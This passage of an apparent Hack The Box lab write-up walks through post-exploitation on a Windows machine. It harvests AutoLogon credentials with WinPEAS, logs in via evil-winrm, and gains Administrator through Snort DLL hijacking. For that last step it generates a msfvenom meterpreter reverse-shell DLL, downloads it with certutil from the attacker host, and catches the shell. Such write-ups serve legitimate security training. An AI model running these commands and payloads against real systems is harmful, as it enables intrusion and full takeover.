And download WinPEAS to the target.

```bash
C:\inetpub\internal\dashboard\uploads>certutil.exe -urlcache -f http://10.10.16.52/winPEASx64.exe winpeas.exe
certutil.exe -urlcache -f http://10.10.16.52/winPEASx64.exe winpeas.exe
****  En ligne  ****
CertUtil: -URLCache La commande s�est termin�e correctement.

C:\inetpub\internal\dashboard\uploads>dir
dir
 Le volume dans le lecteur C n'a pas de nom.
 Le num�ro de s�rie du volume est 0071-E237

 R�pertoire de C:\inetpub\internal\dashboard\uploads

08/03/2024  23:26    <DIR>          .
08/03/2024  23:26    <DIR>          ..
08/03/2024  22:43               114 backdoor.php
08/03/2024  23:03            51�712 runas.exe
08/03/2024  23:26         2�387�456 winpeas.exe
               3 fichier(s)        2�439�282 octets
               2 R�p(s)   4�127�387�648 octets libres

```

Runing the script i found a lot of interesting things that we will come back to it later, but for now, here is what we are looking for.

I got `jdoe` AutoLogon credentials.

```bash
C:\inetpub\internal\dashboard\uploads>winpeas.exe

...

����������͹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  analysis.htb.
    DefaultUserName               :  jdoe
    DefaultPassword               :  7y4Z4^*y9Zzj
```

Using them, i was able to get a shell as `jdoe` using `evil-winrm` 

```bash
$ evil-winrm -u jdoe -p '7y4Z4^*y9Zzj' -i analysis.htb
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\jdoe\Documents>
```

And from there, i was able to retrieve the `user.txt` flag!

```bash
*Evil-WinRM* PS C:\Users\jdoe\Desktop> type user.txt
749251e6b8eb60160707b65ebf00f47a
```

<p align="center">
	
</p>

**user.txt : 749251e6b8eb60160707b65ebf00f47a**


## Privilege Escalation - jdoe to Administrator<a name="privesc-administrator"></a>


As `jdoe` user, i started WinPEAS script again. And i've found few interesting things.

Finding about BCTextEncode :

```bash
ÉÍÍÍÍÍÍÍÍÍ͹ Searching executable files in non-default folders with write (equivalent) permissions (can be slow)
     File Permissions "C:\Users\jdoe\AppData\Local\Automation\run.bat": jdoe [AllAccess]
     File Permissions "C:\inetpub\internal\dashboard\uploads\runas.exe": Users [WriteData/CreateFiles]
     File Permissions "C:\inetpub\internal\dashboard\uploads\winpeas.exe": Users [WriteData/CreateFiles]

```

```bash
È Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries
    (ANALYSIS\Administrateur) run_bctextencoder: C:\Users\jdoe\AppData\Local\Automation\run.bat 
    Permissions file: jdoe [AllAccess]
    Permissions folder(DLL Hijacking): jdoe [AllAccess]
    Trigger: At log on of ANALYSIS\jdoe
```

```bash
*Evil-WinRM* PS C:\Users\jdoe\Documents> type C:\Users\jdoe\AppData\Local\Automation\run.bat
start "BCEncoder" "C:\Program Files\BCTextEncoder\BCTextEncoder.exe"
```

Finding about Snort :

```bash
   =================================================================================================

    Snort(Snort)[C:\Snort\bin\snort.exe /SERVICE] - Autoload - No quotes and Space detected
    Possible DLL Hijacking in binary folder: C:\Snort\bin (Users [AppendData/CreateDirectories WriteData/CreateFiles])
   =================================================================================================
```

## Privilege Exploitation - DLL Hijacking<a name="privesc-dllhijacking"></a>

Generate the dll payload and the pcap file.

```bash
$ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.16.52 LPORT=7777 -f dll -o tcapi.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 201798 bytes
Final size of dll file: 267264 bytes
Saved as: tcapi.dll

$ touch pwned.pcap 
```

Start metasploit listener.

```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set lhost tun0
lhost => tun0
msf6 exploit(multi/handler) > set lport 7777
lport => 7777
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.52:7777 

```

Now start a python http server to download the dll and pcap payload to the target.

```bash
$ python -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

Download both files on the `C:\Snort\lib\snort_dynamicpreprocessor` path.

```bash
*Evil-WinRM* PS C:\Snort\lib\snort_dynamicpreprocessor> dir


    Directory: C:\Snort\lib\snort_dynamicpreprocessor


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        5/24/2022   6:46 AM         207872 sf_dce2.dll
-a----        5/24/2022   6:46 AM          33792 sf_dnp3.dll
-a----        5/24/2022   6:46 AM          22528 sf_dns.dll
-a----        5/24/2022   6:46 AM         108032 sf_ftptelnet.dll
-a----        5/24/2022   6:46 AM          47616 sf_gtp.dll
-a----        5/24/2022   6:47 AM          59392 sf_imap.dll
-a----        5/24/2022   6:47 AM          23552 sf_modbus.dll
-a----        5/24/2022   6:47 AM          58368 sf_pop.dll
-a----        5/24/2022   6:47 AM          52736 sf_reputation.dll
-a----        5/24/2022   6:47 AM          37888 sf_sdf.dll
-a----        5/24/2022   6:47 AM          52224 sf_sip.dll
-a----        5/24/2022   6:47 AM          78848 sf_smtp.dll
-a----        5/24/2022   6:47 AM          22016 sf_ssh.dll
-a----        5/24/2022   6:47 AM          32256 sf_ssl.dll


*Evil-WinRM* PS C:\Snort\lib\snort_dynamicpreprocessor> certutil.exe -urlcache -f http://10.10.16.52:8888/tcapi.dll tcapi.dll
****  Online  ****
CertUtil: -URLCache command completed successfully.

*Evil-WinRM* PS C:\Snort\lib\snort_dynamicpreprocessor> certutil.exe -urlcache -f http://10.10.16.52:8888/pwned.pcap pwned.pcap
http://10.10.16.52:8888/pwned.pcap

WinHttp Cache entries: 1

****  Online  ****
CertUtil: -URLCache command completed successfully.
```

You should see both files triggered from your python http server.

```bash
$ python -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.129.230.179 - - [08/Mar/2024 23:56:34] "GET /tcapi.dll HTTP/1.1" 200 -
10.129.230.179 - - [08/Mar/2024 23:56:34] "GET /tcapi.dll HTTP/1.1" 200 -
10.129.230.179 - - [08/Mar/2024 23:56:44] "GET /pwned.pcap HTTP/1.1" 200 -
10.129.230.179 - - [08/Mar/2024 23:56:44] "GET /pwned.pcap HTTP/1.1" 200 -
```

Finally, wait for the magie to happen! And if nothing happen in 1-2 minutes, run `snort.exe`. 

```bash
*Evil-WinRM* PS C:\Snort\bin> .\snort.exe
snort.exe : Running in packet dump mode
    + CategoryInfo          : NotSpecified: (Running in packet dump mode:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
        --== Initializing Snort ==--Initializing Output Plugins!pcap DAQ configured to passive.The DAQ version does not support reload.Acquiring network traffic from "\Device\NPF_{30B536A0-3BBD-407B-9123-6AB9CA845E94}".Decoding Ethernet        --== Initialization Complete ==--   ,,_     -*> Snort! <*-  o"  )~   Version 2.9.20-WIN64 GRE (Build 82)    ''''    By Martin Roesch & The Snort Team: http://www.snort.org/contact#team           Copyright (C) 2014-2022 Cisco and/or its affiliates. All rights reserved.           Copyright (C) 1998-2013 Sourcefire, Inc., et al.           Using PCRE version: 8.10 2010-06-25           Using ZLIB version: 1.2.11Commencing packet processing (pid=5676)
```

And you should get back a shell as Administrator into you'r metasploit listener.

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.52:7777 
[*] Meterpreter session 1 opened (10.10.16.52:7777 -> 10.129.230.179:63441) at 2024-03-08 23:57:59 +0100

meterpreter > whoami
[-] Unknown command: whoami
meterpreter > getuid
Server username: ANALYSIS\Administrateur
```

And we can take the root flag!

<p align="center">
	
</p>

**root.txt : c64cbec2e749e1acee1e49083f550107**

